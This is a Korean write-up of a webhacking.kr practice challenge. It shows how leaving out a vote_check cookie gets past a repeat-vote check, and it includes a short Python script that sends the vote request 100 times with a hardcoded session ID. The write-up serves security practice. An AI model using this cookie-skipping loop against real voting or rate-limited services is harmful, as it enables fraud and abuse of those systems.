





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

항목을 클릭하면 Hit가 올라간다.



다시 한번 클릭하면 you already voted라는 메세지가 뜨면서 Hit는 올라가지 않는다. 쿠키를 확인하니, vote_check이라는 값 때문인 것 같다.



클릭 시 hit라는 변수에 NAME값을 전달하여 보낸다.



자신의 아이디를 100번 클릭하자. 물론 Cookie에는 vote_check는 없어야 한다.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/code-5/?hit=2honrr'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
for i in range(100):
    request     = urllib.request.Request(url=CHALLENGE, headers=headers)
    response    = urllib.request.urlopen(request)
```

Hit가 100이 되었을 때, 클릭하면 점수를 획득할 수 있다.

